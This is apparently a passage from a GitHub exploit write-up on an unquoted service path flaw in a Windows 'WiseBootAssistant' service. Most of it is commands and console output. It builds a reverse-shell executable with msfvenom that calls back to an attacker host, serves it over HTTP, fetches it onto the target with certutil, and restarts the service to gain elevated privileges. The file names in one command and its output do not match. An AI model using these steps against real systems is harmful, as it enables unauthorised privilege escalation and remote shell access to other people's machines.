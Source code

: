 ```console
```

3. Exploit:

A successful attempt to exploit this vulnerability requires the attacker to insert an executable file into the service path undetected by the OS or some security application.
When restarting the service or the system, the inserted executable will run with elevated privileges.

> Lets create a reverse shell payload

## Privilege Escalation (Metasploit / MsfVenom)

### Metasploit 

- `use payload/windows/x64/shell_reverse_tcp`
- set lhost and lport
- generate payload `generate -f exe -o Wise.exe`  


### MsfVenom

- `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.2.9 LPORT=4444 -f exe -o vWise.exe`

```console
┌──(kali㉿kali)-[~]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.2.9 LPORT=4444 -f exe -o Wise.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: vWise.exe
```
### Execution

On host system:
- move payload to transfers folder `mv ~/Wise.exe ~/transfers `
- start http server `python3 -m http.server 80`

On target system:
- go to target path `cd C:\Program Files (x86)\Wise`
- download payload `certutil.exe -urlcache -f http://10.0.2.9/Wise.exe Wise.exe`
- stop service `sc stop WiseBootAssistant`
- check status `sc query WiseBootAssistant`
```console
C:\Program Files\Jenkins>sc query WiseBootAssistant
sc query WiseBootAssistant

SERVICE_NAME: WiseBootAssistant 
        TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
        STATE              : 1  STOPPED 
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
```
- start service `sc start`
```console
C:\Program Files\Jenkins>sc start WiseBootAssistant
sc start WiseBootAssistant
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.
```
